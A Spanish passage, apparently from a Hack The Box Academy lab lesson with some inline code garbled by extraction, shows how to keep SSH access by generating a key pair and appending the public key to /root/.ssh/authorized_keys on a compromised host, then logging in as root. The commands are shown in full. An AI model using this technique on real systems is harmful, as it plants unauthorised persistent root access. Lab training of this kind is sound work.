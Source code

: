 Si nos encontramos con acceso de escritura a un directorio de usuarios, podemos colocar nuestra clave pública en el directorio ssh del usuario en . Esta técnica se usa generalmente para obtener acceso a ssh después de obtener un shell como ese usuario. La configuración actual de SSH no aceptará claves escritas por otros usuarios, por lo que solo funcionará si ya hemos ganado el control sobre ese usuario. Primero debemos crear una nueva clave con y el flag para especificar el archivo de salida:`/.ssh/``/home/user/.ssh/authorized_keys``ssh-keygen``-f`

  Escalada de privilegios

```shell-session
zunderrubb@htb[/htb]$ ssh-keygen -f key

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): *******
Enter same passphrase again: *******

Your identification has been saved in key
Your public key has been saved in key.pub
The key fingerprint is:
SHA256:...SNIP... user@parrot
The key's randomart image is:
+---[RSA 3072]----+
|   ..o.++.+      |
...SNIP...
|     . ..oo+.    |
+----[SHA256]-----+
```

Esto nos dará dos archivos: (que usaremos con ) y , que copiaremos a la máquina remota. Copiemos, luego en la máquina remota, lo agregaremos a:`key``ssh -i``key.pub``key.pub``/root/.ssh/authorized_keys`

  Escalada de privilegios

```shell-session
user@remotehost$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
```

Ahora, el servidor remoto debería permitirnos iniciar sesión como ese usuario utilizando nuestra clave privada:

  Escalada de privilegios

```shell-session
zunderrubb@htb[/htb]$ ssh root@10.10.10.10 -i key

root@remotehost# 
```

Como podemos ver, ahora podemos ssh en el usuario . Los módulos [Escalada de privilegios de Linux](https://academy.hackthebox.com/module/details/51) y Escalada de [privilegios de Windows](https://academy.hackthebox.com/module/details/67) ofrecen más detalles sobre cómo usar cada uno de estos métodos para la escalada de privilegios y muchos otros.`root`